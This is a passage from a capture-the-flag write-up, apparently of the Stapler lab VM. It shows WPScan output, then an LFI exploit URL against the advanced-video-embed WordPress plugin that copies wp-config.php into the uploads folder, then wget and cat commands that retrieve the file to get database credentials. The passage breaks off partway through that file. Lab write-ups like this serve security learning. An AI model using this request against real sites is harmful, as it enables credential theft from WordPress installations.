 ```bash
 | Readme: https://192.168.56.114:12380/blogblog/wp-content/plugins/two-factor/readme.txt
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - https://192.168.56.114:12380/blogblog/wp-content/plugins/two-factor/, status: 200
 |
 | The version could not be determined.

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sun May  3 07:37:01 2020
[+] Requests Done: 86503
[+] Cached Requests: 28
[+] Data Sent: 52.231 MB
[+] Data Received: 11.69 MB
[+] Memory used: 349.422 MB
[+] Elapsed time: 00:01:41
```

It looked like `advanced-video-embed-embed-videos-or-playlists` was vulnerable to a LFI exploit. I did some research on how this exploit works exactly and did the following:

I edited the link in the exploit to fit the target's IP and port: `https://192.168.56.114:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php`

After visiting that link, I checked `/wp-content/uploads` for any new uploads and found the following:

![alt]({{ site.url }}{{ site.baseurl }}/images/stapler_newupload.png)

Inspecting this new file locally gave me the credentials I was after:

```bash
kali@kali:~$ wget https://192.168.56.114:12380/blogblog/wp-content/uploads/1930028253.jpeg --no-check-certificate
--2020-05-03 07:58:34--  https://192.168.56.114:12380/blogblog/wp-content/uploads/1930028253.jpeg
Connecting to 192.168.56.114:12380... connected.
WARNING: The certificate of ‘192.168.56.114’ is not trusted.
WARNING: The certificate of ‘192.168.56.114’ doesn not have a known issuer.
The certificates owner does not match hostname ‘192.168.56.114’
HTTP request sent, awaiting response... 200 OK
Length: 3042 (3.0K) [image/jpeg]
Saving to: ‘1930028253.jpeg’

1930028253.jpeg                             100%[==========================================================================================>]   2.97K  --.-KB/s    in 0.001s  

2020-05-03 07:58:34 (3.74 MB/s) - ‘1930028253.jpeg’ saved [3042/3042]

kali@kali:~$ cat 1930028253.jpeg
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link https://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You do not have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
```